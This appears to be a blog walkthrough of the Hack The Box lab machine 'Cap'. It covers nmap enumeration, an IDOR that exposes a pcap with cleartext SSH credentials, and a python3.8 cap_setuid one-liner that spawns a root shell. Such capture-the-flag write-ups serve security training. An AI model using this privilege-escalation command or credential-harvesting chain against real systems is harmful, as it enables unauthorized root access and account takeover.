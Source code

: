 ```yaml
---
heroImage: /public/images/hackthebox/cap/cap-head.png
category: Hack The Box
description: 'Cap: an easy hack the box machine'
pubDate: 2024-11-10T22:00:00.000Z
tags:
  - network
  - pcap
  - idor
  - web
title: Cap | Easy Hack The Box Machine
---
```


# Enumeration

```shell
nmap -sC -sV -oN nmap/initial 10.10.10.245
```

```ruby
Nmap scan report for 10.10.10.245
Host is up (0.86s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 10 Nov 2024 19:02:38 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 10 Nov 2024 19:02:31 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 10 Nov 2024 19:02:32 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
```

3 ports are open!

**Testing for ftp anonymous connection failed!**

# Port 80 (IDOR)

visiting website indicates it's a network stuff dashboard:

![](public/images/hackthebox/cap/cap-port-80.png)

Hmm, static page. Let's explore the second one!

![](public/images/hackthebox/cap/cap-pcap-idor.png)

Hmm, It shows 3 in the URL... what if we changed it to 0? Let's try!

![](public/images/hackthebox/cap/cap-idor-0.png)

It worked!

# Sensitive Pcap File

Let's Download the pcap file and explore it with wireshark.

![](public/images/hackthebox/cap/cap-pcap-0.png)

Voila! We got credentials!!!

Let's login on ssh with these credentials!

```powershell
nathan @cap: ~$ id
uid = 1001(nathan) gid = 1001(nathan) groups = 1001(nathan)
nathan @cap: ~$ cat user.txt
REDACTED!
```

Nice One!

# Privilege Escalation

Running `linpeas.sh` revealed this:

```shell
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Searching on [gtfobins ](https://gtfobins.github.io/gtfobins/python/#capabilities 'gtfobins')we knew it's a priv esc vector! Let's run it!

```shell
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# whoami
root
root@cap:~# cat /root/root.txt
REDACTED!
```

